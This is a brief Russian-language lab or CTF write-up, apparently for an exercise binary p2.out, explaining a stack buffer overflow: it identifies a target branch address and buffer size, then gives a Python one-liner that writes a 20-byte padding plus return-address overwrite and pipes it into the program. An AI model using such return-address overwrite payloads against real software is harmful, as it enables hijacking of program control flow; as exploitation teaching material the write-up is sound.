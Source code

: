 ![](misc/image.png)

адрес нужной ветки - 0x4011d8

![alt text](misc/image-1.png)

0xc - размер буфера (12)

заполняем буфер + rbp (20 байт), чтобы изменить адрес возврата на 0x4011d8


```python3 -c 'import sys; sys.stdout.buffer.write(b"A"*20 + b"\xd8\x11\x40\x00\x00\x00\x00\x00")' > in```

```cat in | ./p2.out```